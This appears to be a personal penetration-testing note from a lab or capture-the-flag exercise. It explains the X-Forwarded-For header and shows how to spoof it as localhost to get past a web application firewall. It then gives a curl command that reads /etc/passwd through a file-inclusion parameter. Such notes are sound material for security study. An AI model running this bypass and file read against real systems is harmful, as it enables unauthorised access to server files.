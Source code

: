 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

### WAF Web Application Firewall

![[Pasted image 20220307105734.png]]

WAF: Access Denied for this Host.


X-Forwarded-For Header

"The X-Forwarded-For (XFF) header is a de-facto standard header for identifying the originating IP address of a client connecting to a web server through an HTTP proxy or a load balancer. When traffic is intercepted between clients and servers, server access logs contain the IP address of the proxy or load balancer only. To see the original IP address of the client, the X-Forwarded-For request header is used."

```burpsuite - kali
X-Forwarded-For: 127.0.0.1
```

Ensure we have TWO blank lines under this (lines 8 and 9 in photo)

![[Pasted image 20220307111047.png]]

LFI
![[Pasted image 20220307120119.png]]

```bash -kali
curl http://$TARGET:13337/logs?file=/etc/passwd -H "X-Forwarded-For: localhost"
```

[[3._LFI RFI]]

#### Examples

[[GraphQL Graphiql]]



















